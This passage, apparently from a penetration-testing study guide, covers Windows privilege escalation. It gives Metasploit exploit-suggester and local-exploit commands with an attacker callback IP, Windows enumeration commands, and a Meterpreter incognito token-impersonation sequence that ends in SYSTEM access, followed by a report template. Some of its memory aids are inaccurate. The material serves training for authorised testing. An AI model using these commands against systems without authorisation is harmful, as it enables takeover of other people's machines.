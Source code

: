 #### **Automated Escalation Commands:**
```bash
use post/multi/recon/local_exploit_suggester   # Find vulnerabilities
set SESSION 1                                  # Set active session
use exploit/windows/local/[exploit_name]       # Use suggested exploit
set LHOST attacker_ip                          # Set callback IP
```

#### **Manual Enumeration Commands:**
```bash
# From shell session
systeminfo                                     # System configuration
whoami /all                                    # Current user details
net users                                      # Local user accounts
net localgroup administrators                  # Admin group members
sc query type= service state= all             # Service enumeration
```

### **Memory Tricks:**

#### **Easy Ways to Remember:**
- **getuid** = **get** **u**ser **id**entifier
- **load incognito** = **load** the **incognito** (hidden identity) module
- **impersonate_token** = **impersonate** (pretend to be) another user's **token**
- **NT AUTHORITY\SYSTEM** = **N**ew **T**echnology **AUTHORITY** **SYSTEM** (highest Windows privilege)
- **rev2self** = **rev**ert **to** original **self**

#### **Command Pattern for Escalation:**
```bash
# Remember: CHECK → LOAD → LIST → STEAL → VERIFY
getuid                  # Check current status
load incognito          # Load tools
list_tokens -u          # List available tokens  
impersonate_token       # Steal higher privilege token
getuid                  # Verify escalation success
```

---

## 📝 Professional Reporting Templates

### **Quick Report Template:**
```markdown
## Windows Privilege Escalation Assessment

**Target System:** [target_ip]
**Date/Time:** [timestamp]  
**Initial Access:** [how_access_obtained]
**Starting Privileges:** [initial_user_level]

### Escalation Method Used:
**Technique:** Token Impersonation via Incognito
**Source Token:** NT AUTHORITY\SYSTEM
**Escalation Time:** < 3 minutes

### Final Access Level:
**User Context:** NT AUTHORITY\SYSTEM
**Privileges Gained:** [list key privileges]
**Administrative Capabilities:** Complete system control

### Evidence Collected:
- **Initial getuid output:** [starting_user]
- **Token enumeration results:** [available_tokens]  
```